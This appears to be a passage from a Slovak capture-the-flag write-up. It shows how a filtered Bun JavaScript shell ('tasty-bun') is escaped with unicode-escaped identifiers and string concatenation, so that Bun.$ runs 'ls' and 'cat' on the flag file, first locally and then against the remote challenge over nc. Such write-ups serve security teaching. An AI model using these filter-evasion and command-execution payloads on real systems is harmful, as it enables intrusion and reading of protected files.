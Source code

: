 ```
tasty-bun> $666`${$1} ${$2}`.\u0074\u0065\u0078\u0074``
etc
boot
bin
opt
mnt
var
lib64
lib
home
sys
srv
run
sbin
media
proc
tmp
root
dev
usr
app
flag494711.txt
```

Viem názov vlajky, skúsim zavolať `cat flag494711`

```
tasty-bun> $1=`ca`
ca
tasty-bun> $1+=`t`
cat

tasty-bun> $2=`\u002f`
/
tasty-bun> $2+=`fl`
/fl
tasty-bun> $2+=`ag`
/flag
tasty-bun> $2+=`494711.txt`
/flag494711.txt

tasty-bun> $666`${$1} ${$2}`.\u0074\u0065\u0078\u0074``
SK-CERT{fake_flag_for_testing}
```

Lokálne funguje... teraz na ostro

```
nc exp.cybergame.sk 7012
tasty-bun> $666=\u0042\u0075\u006e.$
[object Function]
tasty-bun> $1=`ls`
ls
tasty-bun> $2=`\u002f`
/
tasty-bun> $666`${$1} ${$2}`.\u0074\u0065\u0078\u0074``
lib
etc
usr
lib64
root
run
home
bin
sbin
```